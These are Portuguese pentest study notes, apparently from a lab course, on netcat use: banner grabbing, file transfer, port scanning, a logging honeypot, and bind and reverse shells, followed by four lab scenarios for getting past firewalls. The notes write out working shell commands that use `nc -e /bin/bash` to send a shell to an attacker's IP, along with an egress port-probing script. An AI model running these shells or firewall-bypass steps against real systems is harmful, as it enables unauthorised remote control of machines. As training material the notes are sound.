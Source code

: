 
# Port Forwarding

Encaminhamento de portas - quando um pacote chegar ao roteador, esse vai conseguir encaminhar para o IP correto do servico.
Em pentest, isso e util principalmente quando queremos acessar servicos atras de Firewalls, usando a **conexao reversa** que sera explicada adiante, fazendo o servidor se conectar a nossa maquina e enviar a *shell*

# Swiss Army Knife

Canivete Suico - varias possibilidades em um unico produto
Para pentest
- Estabelecer e receber conexoes
- Banner grabbing (Interacao com servicos)
- Chat
- Transferencia de arquivos
- Honeypot
- Scanning
- Execucao de comandos remoto

Exemplos como netcat, ncat, socat, sdb, cryptcat

# NETCAT

Geralmente usando `nc` na maioria das *distros* linux.

## Interagindo com servicos

A sintaxe padrao e `nc {site/ip} {porta}`, dessa forma conseguimos interagir diretamente com um servico. Nesse caso sera necessario tbm entender a sintaxe do servico que esta interagindo.

## Chat e IP logger

Podemos usar tambem o netcat para abrir portas na maquina, com `nc -vlp {porta}` onde o *v para verbose*, *l de listen* e *p de port*. Abrindo essa porta podemos em outras maquina nos conectar por netcat com o `nc {ip do host que abriu a pota} {porta aberta}` como nao tem nenhum servico aberto, isso funcionaria como um "chat", tudo que voce digita em um dos terminais ira aparecer no outro.Tanto do host > listen como o inverso, essa conexao **nao e criptografada!** Outro ponto interessante, se eu abrir a porta **80** como listen, usando a sintaxe `nc -vlnp 80` onde o N nao resolve o nome como ip, e alguem acessar meu IP pelo navegador tambem sera mostrado essa tentativa de conexao, retornando o user agent.

## UDP e File Transfer

A sintaxe muda um pouco, com `nc -vnlup {porta}` estabelecemos uma coenxao **UDP**, para conectar usamos `nc -vnu {porta}`, sem servico funciona da mesma forma como "chat".

Para enviar arquivos, abrimos uma porta e no final direcionamos o que vem para um arquivo. E no servidor que vai se conectar, o arquivo para a conexao.

## Port Scanning

`nc -vzd {ip ou site} {porta}` com a opcao **z** vemos o status de uma porta, podemos usar a sintaxe `nc -vzd {ip ou site} porta_inicial-portafinal` exemplo `nc -vzd www.businesscorp.com.br 20-30` para procurar o status da porta 20 ate a 30. Podemos varrer todas as 65535, mas demora bem mais que outros por scanners, como o que fiz em python a alguns meses. Outra alternativa e usar o bash/shell scripting e ler um arquivo usando `cat` por exemplo.

## Honeypot

Atrair o atacante para uma armadilha, simulando portas abertas, quando alguem se conectar nessas portas, podemos acompanahr os movimentos.

Usando um *&* no final do codigo o processo fica executando em background, entao no Netcat usariamos `nc -vnlp {porta}`, dessa forma, quando alguem se conectar ira aparecer no terminal.

Para criar um honepote, podemos por exemplo criar um **banner** em *.txt*, exemplo simulando o banner do FTP, e outro arquivo *.log*, para ambos damos permissao total com `sudo chmod 777` nos dois arquivos.
Agora aprimos a porta com `nc -vnlp {porta} < banner.txt` assim direcionamos a saida ao arquvio de banner criado, exibidno por exemplo o banner de um servidor FTP com informacoes falsas do nosso sistema. O seguinte precisamos direcionar para o *.log* usando agora `nc -vnlp {porta} < banner.txt >> file.log 2>> file.log`,  importante usador dois *sinais de maior que* para gravar no final do arquivo e nao substituir. Outro ponto sobre, e que usando `2>>` direcionamos tambem erros para um arquivo de log e gravamos no final estes. Dessa forma as tentativas de interacao com o honeypot ficam armazenadas, ainda podemos melhorar o script com `while true; do nc -vnlp {porta} < banner.txt >> file.log 2>> file.log;echo $(date) >> file.log;done` trazendo tambem a data e hora do que foi escrito no shell, e adicionado o *while true;do* impede que abrindo a primeiro conexao o netcat caia apos a primeira conexao ser encerrada.

Usos desse honeypot seria por exemplo filtrar os IPs que se conectam as portas falsas e incluir em uma regra de bloqueio de firewall.

## Bind shell X Reverse shell

- **Bind shell** -> Maquina atacante conecta diretamente na porta do alvo, ao conectar **executa** a shell.

Usando netcat, temos a opcao `-e` que permite a execucao de um programa apos a conexao estabelecida.
Na maquina alvo abrimos uma porta `nc -vnlp {porta} -e /bin/bash` no caso de linux ou `nc -vnlp {porta} -e cmd.exe` para windows.
Na maquina atacante usamos `nc -vn {ip alvo} {porta}` e ja temos um shell, podemos digitar comandos diretamente no terminal.



- **Reverse shell** -> Maquina atacante fica esperando uma conexao, maquina alvo conecta e **envia** a shell

No reverse shell, iniciamos com a **maquina do atacante** escutando em uma porta exemplo `nc -vnlp {porta}` e entao na **maquina alvo**  `nc -vn {ip do atacante} {porta} -e cmd.exe # ou /bin/bash para linux` aqui nos conectamos na maquina atacante e enviamos o shell para ela.


# Vencendo o Firewall

## Cenario 1 - Bind shell simples

Acesso via SSH conectado a VPN
IP 172.16.1.5
root:root
Local das regras do firewall /home/msfadmin/firewall/

Cenario sem firewall, basta realizar um bind shell, conectado no ssh do alvo, usando o `nc -vnlp 5050 -e /bin/bash` abrimos a shell e na maquina atacante com `nc -vn 172.16.1.5 5050` recebemos a shell.

## Cenario 2 - Bind shell com porta "closed"

Firewall basico
Acesso direto nao funciona mais

Nesse caso notamos a porta 443 que esta *fechada*. Com nao tem nenhum servico rodando la, conseguimos usar o netcat na maquina alvo novamente com `nc -vnlp 443 -e /bin/bash` e na maquina atacante novamente `nc -vn 172.16.1.5 443` desse forma realizando novamente um bind shell, usando uma porta reconhecida pelo firewall mas sem servico ativo.

## Cenario 3 - Reverse shell basico

Nova regra de firewall, acesso direto nao funciona mais, pois toda entrada esta filtrada.

Nesse caso bind shell nao funciona, pois todo trafego e bloqueado na entrada. Caso perfeito para o reverse shell.

Na maquina do **atacante** abrimos a porta com `nc -vnlp 5050` e na maquina alvo enviamos a shell com `nc -vn {ip} 5050 -e /bin/bash` e recebemos a shell na maquina atacante.

## Cenario 4 - Egress firewall

Regra de firewall restritiva que bloqueia trafego de entrada e saida.

Bypass: Egress Firewall - criar uma forma de tentar estabelecer conexoes de saida, encontrar uma porta valida e fazer o reverse shell usando ela.

Na maquina atacante vamos abrir as portas com um script sh
```shell
nc -vnlp 80&
sleep 2
nc -vnlp 443&
sleep2
nc -vnlp 53&
netstat -nlpt
```
e no servidor fazemos o mesmo script para testar a saida
```shell
nc -vn {ip} 80&
sleep 2
nc -vn {ip} 443&
sleep 2
nc -vn {ip} 53&
```
Primeiro executamos na maquina atacante e em seguida na maquina alvo, podemos adicionar um ` | grep "open"` para filtrar apenas as portas abertas.
No exemplo as tres portas estao disponiveis, entao podemos usar qualquer uma dessas para um reverse shell.

**Em casos praticos** muitas vezes protocolos especificos ficam disponiveis, entao alem de achar a porta correta, temos que achar o protocolo correto.